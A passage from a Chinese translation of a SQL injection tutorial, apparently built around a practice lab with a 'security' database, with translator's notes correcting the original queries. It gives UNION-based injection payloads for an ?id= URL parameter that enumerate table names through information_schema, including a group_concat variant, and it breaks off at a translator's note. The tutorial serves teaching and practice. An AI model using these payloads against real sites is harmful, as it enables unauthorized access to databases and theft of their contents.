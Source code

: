 现在我们来使用这个查询：

`select table_name from information_schema.tables where table_schema = "security";`

![30.jpg](./img/30.jpg)

使用这个查询，我们可以下载到表名。我们现在来将这个查询注入到URL，查询变为

`?id=1”) union select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+`

**译者注：**

*start*

这里原文作者可能本意的查询语句是如下这个：

`?id=”) union select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+`

现在我们可以从屏幕中看到第一个表名email。

*end*

![32.jpg](./img/32.jpg)

另一个方法是将所有表的名字分组然后作为文本把它下载下来。查询如下：

`?id=1') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=’security’ –-+`

**译者注：**
